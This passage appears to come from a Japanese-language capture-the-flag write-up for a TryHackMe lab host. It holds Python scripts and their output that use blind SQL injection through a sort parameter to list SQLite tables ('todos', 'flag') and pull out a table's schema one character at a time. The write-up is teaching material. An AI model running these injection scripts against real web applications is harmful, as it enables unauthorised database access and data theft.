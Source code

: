```python
    if table_name:
        found_tables.append(table_name)
    else:
        break  # テーブルがもうない

print("\n[✓] Found Tables:")
for i, name in enumerate(found_tables):
    print(f"  {i + 1}: {name}")
```

todos, flag の2テーブルがあることを確認。

```sh
$ python ./tables.py 
[+] Table 0, Char 1: t -> t
[+] Table 0, Char 2: o -> to
[+] Table 0, Char 3: d -> tod
[+] Table 0, Char 4: o -> todo
[+] Table 0, Char 5: s -> todos
[+] Table 1, Char 1: f -> f
[+] Table 1, Char 2: l -> fl
[+] Table 1, Char 3: a -> fla
[+] Table 1, Char 4: g -> flag

[✓] Found Tables:
  1: todos
  2: flag
```

### 列名の抽出

CREATE TABLE の定義を出力する。文字に改行等を追加していることに注意。  

```python
import requests
import string

url = "http://prioritize.thm/"
charset = string.ascii_letters + string.digits + "_(),\"' \t\n\r"
max_sql_len = 300  # CREATE文の最大長（必要に応じて増やす）

def check_sort(payload): 
    params = {'order': payload}
    r = requests.get(url, params=params)
    return 'aaa' in r.text[:3096]

# 抽出用の文字列
recovered_sql = ""

for i in range(1, max_sql_len + 1):
    found = False
    for c in charset:
        injected = (
            f"CASE WHEN ((SELECT substr(sql,{i},1) "
            f"FROM sqlite_master WHERE type='table' AND name='flag') = '{c}') "
            f"THEN title ELSE date END"
        )
        if check_sort(injected):
            recovered_sql += c
            print(f"[{i:03}] {c} -> {recovered_sql}")
            found = True
            break
    if not found:
        print(f"[{i:03}] End of SQL statement.")
        break
```